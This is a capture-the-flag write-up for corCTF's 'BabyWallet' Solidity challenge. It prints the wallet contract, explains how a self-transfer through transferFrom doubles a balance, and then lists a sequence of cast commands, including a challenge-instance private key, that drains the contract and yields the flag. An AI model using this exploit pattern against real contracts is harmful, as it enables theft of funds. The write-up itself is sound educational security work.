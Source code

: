 # BabyWallet

## Challenge
The challenge is hosted using the paradigm framework. We have the standard setup contract and a small "wallet" contract.

```solidity
pragma solidity ^0.8.17;

contract BabyWallet {
    mapping(address => uint256) public balances;
    mapping(address => mapping(address => uint256)) public allowances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint256 amt) public {
        require(balances[msg.sender] >= amt, "You can't withdraw that much");
        balances[msg.sender] -= amt;
        (bool success, ) = msg.sender.call{value: amt}("");
        require(success, "Failed to withdraw that amount");
    }

    function approve(address recipient, uint256 amt) public {
        allowances[msg.sender][recipient] += amt;
    }

    function transfer(address recipient, uint256 amt) public {
        require(balances[msg.sender] >= amt, "You can't transfer that much");
        balances[msg.sender] -= amt;
        balances[recipient] += amt;
    }

    function transferFrom(address from, address to, uint256 amt) public {
        uint256 allowedAmt = allowances[from][msg.sender];
        uint256 fromBalance = balances[from];
        uint256 toBalance = balances[to];

        require(fromBalance >= amt, "You can't transfer that much");
        require(allowedAmt >= amt, "You don't have approval for that amount");

        balances[from] = fromBalance - amt;
        balances[to] = toBalance + amt;
        allowances[from][msg.sender] = allowedAmt - amt;
    }

    fallback() external payable {}
    receive() external payable {}
}
```

Challenge Description:
I wrote my first Solidity smart contract!

## Solution

The vulnerability is in the updating of balances in transferFrom(). It doesn't take into account that you could use transferFrom() to send money to yourself. If that is the case you can (up to) double your balance with each call. This occurs due to the case that the toBalance variable is saved before the balances[from] is decreased and then used to update the balances[to].

I exploited the vulnerability using cast:

```bash
# uuid:           a32d812c-c017-4525-8898-1abf41e4df7c
# rpc endpoint:   https://baby-wallet.be.ax/a32d812c-c017-4525-8898-1abf41e4df7c
# private key:    0xf71da5b63149c5ab9f6df481625be9349da6caeba24ac775abb99e23c64e517c
# your address:   0x32fd93782E10e80f7C91a7F47CA25DeA2B9Db317
# setup contract: 0x1B7c5c695Af092Da30d1178D43f0858003ab128c

rpc="https://baby-wallet.be.ax/a32d812c-c017-4525-8898-1abf41e4df7c"
priv_key=0xf71da5b63149c5ab9f6df481625be9349da6caeba24ac775abb99e23c64e517c
setup_contract=0x1B7c5c695Af092Da30d1178D43f0858003ab128c
my_addr=0x32fd93782E10e80f7C91a7F47CA25DeA2B9Db317

# get address
cast call $setup_contract "wallet()(address)" --rpc-url $rpc

# Save the address we received.
wallet_contract=0x7c7Aa31DCE00dDbBDfC3755467ebBe04DBa14251

# Findout how much eth we have
cast balance $my_addr --rpc-url $rpc
# We have 5000eth which makes it pretty easy 

# First we deposit 100 eth
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "deposit()" --value 100ether

# Now we check if our balance has increased as planned
cast call --rpc-url $rpc $wallet_contract "balances(address)(uint256)" $my_addr

# Now we approve ourselves for 100eth
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "deposit()" --value 100ether

# Call the function (will prompt to input the private key)
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "approve(address,uint256)" $my_addr 100ether

# Now we transfer 100 eth from us to us
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "transferFrom(address,address,uint256)" $my_addr $my_addr 100ether

# Now we check if our balance has increased as planned
cast call --rpc-url $rpc $wallet_contract "balances(address)(uint256)" $my_addr

#Now we withdraw all the money
cast send --rpc-url $rpc --private-key $priv_key $wallet_contract "withdraw(uint256)" 200ether

# Check if it was solved
cast call $setup_contract "isSolved()(bool)" --rpc-url $rpc
```

flag = corctf{inf1nite_m0ney_glitch!!!}